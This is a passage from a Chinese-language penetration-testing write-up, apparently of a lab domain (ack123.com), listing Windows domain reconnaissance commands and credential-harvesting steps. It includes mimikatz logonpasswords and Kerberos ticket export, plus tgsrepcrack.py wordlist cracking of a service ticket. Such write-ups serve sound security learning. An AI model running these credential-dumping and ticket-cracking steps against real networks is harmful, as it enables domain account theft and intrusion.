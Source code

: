 ![image-20231122172457990](images/42.png)

并且找到了内网的另外一个网段10.10.10.138/24，并且DNS服务器的地址是10.10.10.135，这个应该是域控，域名为ack123.com

既然这个机器是域内机器，那就进行一波常规的信息收集，这是在网上嫖的信息收集的思路

```
ipconfig /all               ----->判断是否有主域，
nltest /domain_trusts           ----->查看是否有林域
net group "domain controllers" /domain  ----->查看主域是哪一台服务器
net time /domain            ----->快速定位域控ip，一般是dns、时间服务器：----接ping 

net group "domaincontrollers" /domain   ----->查看域控制器
net user /domain                ----->查看域内的组成员
net group "domain admins" /domain   ----->查看域内的管理员
net accounts /domain            ----->获取域密码强度信息

内网主机
    net view            ----->查看共享资料
        arp -a              ----->arp路由表
         ipconfig  /displaydns      ----->dns缓存


凭据收集
    logonpasswords          ----->cs模块mimikatz获取信息
    mimikatz kerberos::list /export ----->github上的kerberos
        寻找域控管理员的账号      ----->python3 tgsrepcrack.py /usr/share/wordlists/fasttrack.txt 1-40a10000-web2@mysql\~16server-dc1.ack123.com-ACK123.COM.kirbi
```

![image-20231122183317840](images/43.png)
